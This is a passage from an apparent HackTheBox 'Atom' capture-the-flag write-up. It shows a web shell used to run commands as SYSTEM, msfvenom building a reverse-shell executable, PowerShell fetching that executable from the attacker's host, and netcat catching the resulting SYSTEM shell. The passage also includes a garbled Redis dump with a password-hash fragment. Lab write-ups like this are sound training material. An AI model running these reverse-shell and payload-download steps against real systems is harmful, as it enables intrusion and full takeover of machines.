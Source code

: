 Does it work?

```
$ curl http://10.10.10.237/shell.php?cmd=whoami --output -
REDIS0006�0pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0�@�@�{"Id":"e8e52790a0","Name )a4949d
Email�          Administrator Initials ▒ 
ncryptedPasswor@fOdh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi ARol�f Inactiv f de,"TimeStamp":637530169606440253}
                           pk:ids:User$e8e29158-d70d-44b1-a1ba-4949d52790a0pk:ids:MetaDataClass�$ff�-@��ff�%9pk:urn:metadataclass:f�-@��ff�@�AJ{"Id":"f�","SchemaVersion 24.2.0.0�Modifie@T\/Date(1617420120 -0700)\/�6By Ze8e29158d70d44b1a1ba4949d52790asCheck�r    -621355968 r@t �
t�7`s !� �TimeStamp":637530169345346438}shellnt authority\system
���ȩ�:7     
```

Excellent! Somewhere near the end it confirms we are system! Use it to fire up a new reverse shell.

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.22 LPORT=5555 -f exe -o rev5555.exe

PS C:\Users\jason>  iwr http://10.10.14.22:80/rev5555.exe -out rev5555.exe  

$ curl http://10.10.10.237/shell.php?cmd=c:/users/jason/rev5555.exe --output -

$ nc -nlvp 5555             
listening on [any] 5555 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.237] 58726
Microsoft Windows [Version 10.0.19042.906]                                
(c) Microsoft Corporation. All rights reserved.                           
                                                                          
C:\xampp\htdocs>whoami                                                    
whoami                                                                    
nt authority\system                                                       

C:\xampp\htdocs>hostname
hostname
ATOM

```
